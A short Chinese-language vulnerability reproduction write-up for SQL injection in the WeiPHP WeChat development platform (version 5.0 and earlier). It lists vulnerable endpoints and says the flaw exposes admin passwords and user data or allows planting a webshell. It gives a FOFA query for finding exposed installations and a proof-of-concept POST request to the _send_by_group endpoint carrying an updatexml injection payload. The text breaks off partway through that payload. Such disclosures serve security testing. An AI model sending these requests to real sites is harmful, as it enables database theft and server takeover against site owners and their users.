

# WeiPHP 微信开发平台 SQL注入漏洞复现

### 0x01 产品简介

 weiphp 是一个开源，高效，简洁的微信开发平台，基于 oneThink 内容管理框架实现。

### 0x02 漏洞概述

 weiphp 微信开发平台 \_send\_by\_group、 wp\_where、 get\_package\_template等接口处存在 SQL 注入漏洞，攻击者利用此漏洞可获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

### 0x03 影响范围

weiphp <=5.0

### 0x04 复现环境

FOFA：app="WeiPHP"



### 0x05 漏洞复现

**PoC-1**

```cobol
POST /public/index.php/weixin/message/_send_by_group HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Connection: close

group_id[0]=exp&group_id[1]=%29+and+updatexml%281
```
